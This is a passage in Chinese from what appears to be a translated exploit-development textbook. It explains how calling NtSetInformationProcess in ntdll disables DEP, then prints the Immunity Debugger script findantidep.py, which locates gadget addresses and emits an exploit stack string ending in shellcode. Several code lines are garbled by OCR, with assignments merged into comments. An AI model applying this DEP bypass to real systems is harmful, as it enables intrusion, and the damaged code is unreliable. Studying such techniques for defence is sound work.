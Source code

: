 上面的代码就是调用 NtSetInformationProces 的必要过程。首先比较 AL 和 1，把 2 弹入 ESI，紧接着是条件跳转到 0x7C93FEBA。在这里将 ESI 拷贝进栈 EBP-4（记得 ESI 始终是 2）。接着非条件跳转到 7C91D403。在这里将确认堆栈 EBP-4 的值非零。非零则跳转 到 0x7C935D6D。从这里开始变得有趣，4 被第一个压入栈，EBP-4（始终是 2!）被加载进 EAX， 然后压入栈，接着 0x22 被压入，最后-1 被压入（-1 表示禁止当前进程的 DEP）。剩下调用 ZwSetInformationProcess（NtSetInformationProcess 的别称）。上面的代码完成的功能相当于 下面的函数调用：

```
NtSetInformationProcess( -1, 0x22, 0x2, 0x4 ) 
```

Perfect！这样进程的 DEP 就被取消了。在这之前有两项是必须注意的。第一 exploit 代 码得和地址 0x7C91D3F8 结合。第二执行到 0x7C91D3F8 之前，确保 AL 设置成 1.一旦满 足了这些条件，我们就能通过 JMP ESP 将控制权转移给我们的 shellcode。现在回顾三个必 须的地址：

一个地址将 AL 设置成 1 然后返回。 一个地址作为一连串反 DEP 代码的首地址。 一个地址将执行权限返回到我们 shellcode

在平常你需要手工的获取这些地址，不过 Immunity 提供了 findantidep.py 辅助我们完成 这项 。最后你将得到一个 exploit 字符串，将它与你自己的 exploit 结合，就能够使用了。接 下来看看 findantidep.py 代码，接下来将会使用它进行测试。

```
# findantidep.py 
import immlib 
import immutils 
def tAddr(addr):
    buf = immutils.int2str32_swapped(addr)
    return "\\x%02x\\x%02x\\x%02x\\x%02x" % ( ord(buf[0]) , 
        ord(buf[1]), ord(buf[2]), ord(buf[3]) )
DESC="""Find address to bypass software DEP""" 
def main(args):
    imm=immlib.Debugger() 
    addylist = []
    mod = imm.getModule("ntdll.dll") 
    if not mod:
        return "Error: Ntdll.dll not found!"
    # Finding the First ADDRESS ret = imm.searchCommands("MOV AL,1\nRET") 
    if not ret:
        return "Error: Sorry, the first addy cannot be found" 
    for a in ret:
        addylist.append( "0x%08x: %s" % (a[0], a[2]) )
    ret = imm.comboBox("Please, choose the First Address [sets AL to 1]", addylist)
    firstaddy = int(ret[0:10], 16)
    imm.Log("First Address: 0x%08x" % firstaddy, address = firstaddy)
    # Finding the Second ADDRESS ret = imm.searchCommandsOnModule( mod.getBase(), "CMP AL,0x1\n PUSH 0x2\n
    POP ESI\n" )
    if not ret:
        return "Error: Sorry, the second addy cannot be found" 
    secondaddy = ret[0][0]
    imm.Log( "Second Address %x" % secondaddy , address= secondaddy )
    # Finding the Third ADDRESS ret = imm.inputBox("Insert the Asm code to search for") 
    ret = imm.searchCommands(ret)
    if not ret:
        return "Error: Sorry, the third address cannot be found" 
    addylist = []
    for a in ret:
        addylist.append( "0x%08x: %s" % (a[0], a[2]) )
    ret = imm.comboBox("Please, choose the Third return Address [jumps to shellcode]", addylist)
    thirdaddy = int(ret[0:10], 16)
    imm.Log( "Third Address: 0x%08x" % thirdaddy, thirdaddy ) 
    imm.Log( 'stack = "%s\\xff\\xff\\xff\\xff%s\\xff\\xff\\xff\\xff" + "A" * 0x54 + "%s" + shellcode ' %\
        ( tAddr(firstaddy), tAddr(secondaddy), tAddr(thirdaddy) ) ) 
```
